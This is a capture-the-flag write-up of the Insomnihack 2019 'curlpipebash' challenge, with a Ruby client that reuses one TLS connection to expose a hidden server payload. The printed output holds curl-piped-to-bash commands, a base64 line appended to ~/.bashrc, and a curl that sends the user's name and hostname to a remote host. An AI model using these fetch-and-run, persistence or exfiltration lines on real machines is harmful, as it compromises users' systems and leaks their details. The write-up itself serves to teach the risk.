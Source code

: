 # curlpipebash

## The task:

Execute this Bash command to print the flag :)

`curl -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh | bash`


## solution
Lets execute first part of the command:
```
$ curl -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh
curl -Ns https://curlpipebash.teaser.insomnihack.ch/03b2ae8c-ed33-48c8-ade9-c62f750e068c | bash
```

It returns another curl command. But execution of second curl command returns first:
```
$ curl -Ns https://curlpipebash.teaser.insomnihack.ch/03b2ae8c-ed33-48c8-ade9-c62f750e068c
curl -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh | bash
```

Okay. Let's execute first one and look at HTTP headers:
```
$ curl -D - -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sat, 26 Jan 2019 14:37:10 GMT
Connection: keep-alive
Transfer-Encoding: chunked

curl -Ns https://curlpipebash.teaser.insomnihack.ch/59f467b5-1b38-46c9-9237-64ea4a77488d | bash
```

`Transfer-Encoding: chunked `, piping to bash another curl command and token hint us to use the same connection.

Tried to use `openssl s_client -connect ...` but it was disconnecting before second request has sent. Perhaps I have two left hands.

Ruby solution:

```
require 'socket'
require 'openssl'

tcp_client = TCPSocket.new 'curlpipebash.teaser.insomnihack.ch', 443
context = OpenSSL::SSL::SSLContext.new
ssl_client = OpenSSL::SSL::SSLSocket.new tcp_client, context

ssl_client.connect
url = "GET /print-flag.sh HTTP/1.1\nHost: curlpipebash.teaser.insomnihack.ch\n\n"
puts "url 1: " + url
ssl_client.puts url
puts "answer 1: "
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
str = ssl_client.gets
puts str

token = str.scan(/\w+-\w+-\w+-\w+-\w+/)
puts "token: " + token.first

url = "GET /#{token.first} HTTP/1.1\nUser-Agent: curl/7.47.0\nAccept: */*\nHost: curlpipebash.teaser.insomnihack.ch\n\n"
puts "url 2: " + url
ssl_client.puts url
puts "answer 2: "
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets

url = "GET /#{token.first}/add-to-wall-of-fame/aaa%40bbb HTTP/1.1\nUser-Agent: curl/7.47.0\nAccept: */*\nHost: curlpipebash.teaser.insomnihack.ch\n\n"

puts "url 3: " + url
ssl_client.puts url
puts "answer 3: "
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
puts ssl_client.gets
```


output:
```
$ ruby /tmp/curlbash.rb
url 1: GET /print-flag.sh HTTP/1.1
Host: curlpipebash.teaser.insomnihack.ch

answer 1:
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sat, 26 Jan 2019 14:47:45 GMT
Connection: keep-alive
Transfer-Encoding: chunked

60
curl -Ns https://curlpipebash.teaser.insomnihack.ch/a101be68-3a9b-4d39-b2ba-e9b530bc9b90 | bash
token: a101be68-3a9b-4d39-b2ba-e9b530bc9b90
url 2: GET /a101be68-3a9b-4d39-b2ba-e9b530bc9b90 HTTP/1.1
User-Agent: curl/7.47.0
Accept: */*
Host: curlpipebash.teaser.insomnihack.ch

answer 2:

81
base64  -d >> ~/.bashrc <<< ZXhwb3J0IFBST01QVF9DT01NQU5EPSdlY2hvIFRIQU5LIFlPVSBGT1IgUExBWUlORyBJTlNPTU5JSEFDSyBURUFTRVIgMjAxOScK

86
curl -Ns https://curlpipebash.teaser.insomnihack.ch/a101be68-3a9b-4d39-b2ba-e9b530bc9b90/add-to-wall-of-shame/$(whoami)%40$(hostname)
url 3: GET /a101be68-3a9b-4d39-b2ba-e9b530bc9b90/add-to-wall-of-fame/aaa%40bbb HTTP/1.1
User-Agent: curl/7.47.0
Accept: */*
Host: curlpipebash.teaser.insomnihack.ch

answer 3:

21
INS{Miss me with that fishy pipe}
0

HTTP/1.1 200 OK
```